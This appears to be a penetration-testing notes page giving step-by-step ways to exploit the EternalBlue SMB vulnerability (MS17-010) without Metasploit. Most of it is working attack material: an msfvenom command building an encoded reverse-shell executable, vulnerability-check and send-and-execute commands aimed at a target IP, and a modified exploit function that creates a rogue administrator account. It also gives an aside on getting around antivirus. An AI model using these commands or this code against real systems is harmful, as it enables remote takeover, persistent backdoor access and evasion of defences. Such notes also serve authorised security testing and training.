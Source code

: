 ```yaml
---
description: EternalBlue MS 17-010 exploiting ways without Metasploit.
---
```


# MS17-010

{% embed url="https://github.com/helviojunior/MS17-010" %}

### With Executable

```
$ git clone https://github.com/helviojunior/MS17-010.git
$ cd MS17-010

$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 EXITFUNC=thread -f exe -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -o reverse.exe
```

```
$ python checker.py 192.168.1.2

Trying to connect to 192.168.1.2:445
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (32 bit)
lsarpc: Ok (32 bit)
browser: Ok (32 bit)
```

```
python send_and_execute.py <ip> <executable_file> [port] [pipe_name]

$ python send_and_execute.py 192.168.1.2 reverse.exe 445 browser
```

### With Adding User

If there is an AV, you can not upload executable file. Instead of uploading, you can create an administrator account. Or you can do AV evasion. :)

[https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315)

Change smb\_pwn function content is to below.

```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
#	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	service_exec(conn, r'cmd /c net user cel1s0 password /add')
	service_exec(conn, r'cmd /c net localgroup administrators cel1s0 /add')  
#	smbConn.closeFile(tid2, fid2)
	smbConn.closeFile(tid2)
	smbConn.disconnectTree(tid2)
```

